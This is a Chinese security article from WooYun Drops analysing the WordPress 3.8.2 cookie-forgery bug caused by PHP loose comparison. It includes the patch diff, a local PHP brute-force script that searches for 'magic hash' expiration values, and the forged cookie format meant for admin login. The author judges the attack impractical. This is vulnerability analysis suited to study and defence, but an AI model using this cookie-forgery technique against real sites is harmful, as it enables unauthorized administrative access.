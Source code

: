 # WordPress 3.8.2 cookie 伪造漏洞再分析

2014/04/13 23:12 | [donwa](http://drops.wooyun.org/author/donwa "由 donwa 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

看了 WordPress 3.8.2 补丁分析 HMAC timing attack，眼界大开，原来还可以利用时间差来判断 HMAC。

但我总觉得这个漏洞并不是简单的修复这个问题。

查看了官方提供的资料:“该漏洞是由 WordPress 的安全团队成员 Jon Cave 发现。”。

也许漏洞还有这样利用的可能。

## 0x01 PHP 的特性

* * *

当 PHP 在进行 ”==”,”!=”等非严格匹配的情况下，会按照值的实际情况，进行强制转换。

```
<?php
var_dump(0 == '0'); // true
var_dump(0 == 'abcdefg'); // true  
var_dump(0 === 'abcdefg'); // false
var_dump(1 == '1abcdef'); // true  
?>

```

当有一个对比参数是整数的时候，会把另外一个参数强制转换为整数。

## 0x02 分析修复的代码

* * *

官方版的 diff 只在 php 里改动了一个位置:

```
<?php
-  if ( $hmac != $hash ) {  
+  if ( hash_hmac( 'md5', $hmac, $key ) !== hash_hmac( 'md5', $hash, $key ) ) { 
?>

```

其中$hmac 来源于 cookies。是我们可控的一个输入参数。

```
<?php
Admin|1397564163|1f253e501c301bf5bf293c40d7d92ded
//$username = ‘Admin’;
//$expiration = 1397564163;
//$hmac = ‘1f253e501c301bf5bf293c40d7d92ded’;
?>

```

$hash 是以下代码生成一个 md5 值。

```
<?php
$key = wp_hash($username . $pass_frag . '|' . $expiration, $scheme);
$hash = hash_hmac('md5', $username . '|' . $expiration, $key);
?>

```

当`$hmac == $hash` 时，登录成功。

那么，有几种情况会登录成功。

```
<?php
//第一种情况，完全相等。
$hmac = ‘1f253e501c301bf5bf293c40d7d92ded’;
$hash = ‘1f253e501c301bf5bf293c40d7d92ded’;
//第二种情况.第一位为数字，第二位为字母
$hmac = 1;
$hash = ‘1f253e501c301bf5bf293c40d7d92ded’;
//第三种情况。第一位为字母
$hmac = 0;
$hash = ‘af253e501c301bf5bf293c40d7d92ded’;
?>

```

很明显，第三种出现的情况非常大。

那么我们有没有可能把$hmac 构造成一个整数 0 呢？

## 0x03 漏洞利用

* * *

我们看看 cookie 解析的代码：

```
<?php
    $cookie_elements = explode('|', $cookie);
    if ( count($cookie_elements) != 3 )
        return false;
    list($username, $expiration, $hmac) = $cookie_elements;
?>

```

当我们把 cookie 设置为：

```
Admin|1397564163|1 
```

时。$hmac=’1’。但是，$hmac 是字符串 1，而不是整数 1。

```
<?php
var_dump($hmac);//string(“1”);
?>

```

非常遗憾，这个漏洞是不能利用的。

难道官方修复的真的不是这个漏洞？

## 0x04 柳暗花明又一村

* * *

还有什么情况能让字符串识别成整数吗？是的，还有！

```
<?php
var_dump("0" == "0e1234567890123456...32"); // true
?>

```

‘e’会识别为次方，0 的 N 次方为 0；

所以，这个漏洞的利用方式还可以是：
让$hmac = ‘0’;

通过改变$expiration 来改变$hash。获得一个，第一位为 0，第二位为 e,后面所有位为数字的$hash.

```
<?php
$hmac = ‘0’;
$hash = ‘0e1234567890123456...32’;
var_dump($hmac == $hash);  // true
?>

```

## 0x05 攻击代码

* * *

本地测试代码（实际攻击代码应该是构造 cookies 远程请求）：

```
<?php
    include( 'wp-load.php' );

    $user = get_userdata(1);
    $username = $user->user_login;
    $pass_frag = substr($user->user_pass, 8, 4);

    $expiration = 9999999999; //设置一个很大的过期时间，然后递减

    while($expiration >0){
        $key = wp_hash($username . $pass_frag . '|' . $expiration, 'auth');
        $hash = hash_hmac('md5', $username . '|' . $expiration, $key);
        if('0' == $hash OR '1'== $hash ){
            echo $expiration.'@'.$hash;
            file_put_contents('done.txt',$expiration.'@'.$hash);
            exit();
        }
        $expiration -= 1;//过期时间-1
        echo $expiration.'@'.$hash."\r\n";
    }
?>

```

通过改变过期时间，尝试碰撞到可以利用的 hash。

按照理论值。碰撞到可以利用的$expiration 几率是(2*1*10³⁰)/(16³²)。也就是 5.8774717541114 * 10 -9。

理论上：把 cookies 设置成 “admin|碰撞到的过期时间|0”,就可以登陆后台了。

但是几率太小，还不如穷举密码了。

Ps：我本地跑了几个小时了，还没遇到一个。

版权声明：未经授权禁止转载 [donwa](http://drops.wooyun.org/author/donwa "由 donwa 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [WordPress 更新至 3.8.2 修复多个漏洞](http://drops.wooyun.org/news/1401)
*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)
*   [调皮的 location.href](http://drops.wooyun.org/papers/892)
*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [WordPress < 3.6.1 PHP 对象注入漏洞](http://drops.wooyun.org/papers/596)